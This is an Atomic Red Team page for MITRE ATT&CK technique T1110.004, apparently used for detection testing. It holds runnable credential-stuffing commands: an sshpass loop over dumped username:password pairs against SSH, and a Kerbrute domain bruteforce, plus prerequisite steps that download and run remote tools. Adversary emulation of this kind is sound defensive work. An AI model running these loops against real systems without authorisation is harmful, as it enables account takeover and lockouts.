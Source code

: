 # T1110.004 - Credential Stuffing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/004)
<blockquote>Adversaries may use credentials obtained from breach dumps of unrelated accounts to gain access to target accounts through credential overlap. Occasionally, large numbers of username and password pairs are dumped online when a website or service is compromised and the user account credentials accessed. The information may be useful to an adversary attempting to compromise accounts by taking advantage of the tendency for users to use the same passwords across personal and business accounts.

Credential stuffing is a risky option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies.

Typically, management services over commonly used ports are used when stuffing credentials. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - SSH Credential Stuffing From Linux](#atomic-test-1---ssh-credential-stuffing-from-linux)

- [Atomic Test #2 - SSH Credential Stuffing From MacOS](#atomic-test-2---ssh-credential-stuffing-from-macos)

- [Atomic Test #3 - Brute Force:Credential Stuffing using Kerbrute Tool](#atomic-test-3---brute-forcecredential-stuffing-using-kerbrute-tool)


<br/>

## Atomic Test #1 - SSH Credential Stuffing From Linux
Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** Linux


**auto_generated_guid:** 4f08197a-2a8a-472d-9589-cd2895ef22ad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cp $PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then sudo apt update && sudo apt install sshpass -y; else echo "This test requires sshpass" ; fi ;
```




<br/>
<br/>

## Atomic Test #2 - SSH Credential Stuffing From MacOS
Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** macOS


**auto_generated_guid:** d546a3d9-0be5-40c7-ad82-5a7d79e1b66b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cp $PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/e8114640740938c20cc41ffdbf07816b428afc49/install.sh)"
brew install hudochenkov/sshpass/sshpass
```




<br/>
<br/>

## Atomic Test #3 - Brute Force:Credential Stuffing using Kerbrute Tool
Will read username and password combos from a file or stdin (format username:password) and perform a bruteforce attack

**Supported Platforms:** Windows


**auto_generated_guid:** 4852c630-87a9-409b-bb5e-5dc12c9ebcde





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domaincontroller | Domain controller where test will be run | String | $ENV:userdnsdomain|
| domain | Domain where you will be testing | String | $ENV:userdomain|


#### Attack Commands: Run with `powershell`! 


```powershell
cd $env:temp
.\kerbrute.exe bruteforce --dc #{domaincontroller} -d #{domain} $env:temp\bruteforce.txt
```




#### Dependencies:  Run with `powershell`!
##### Description: kerbrute.exe must exist in $env:temp
##### Check Prereq Commands:
```powershell
if (test-path $env:temp\kerbrute.exe){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "$env:temp\kerbrute.exe"
```
##### Description: bruteforce.txt must exist in $env:temp
##### Check Prereq Commands:
```powershell
if (test-path $env:temp\bruteforce.txt){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
invoke-webrequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1110.004/src/bruteforce.txt?raw=true" -outfile "$env:temp\bruteforce.txt"
```




<br/>

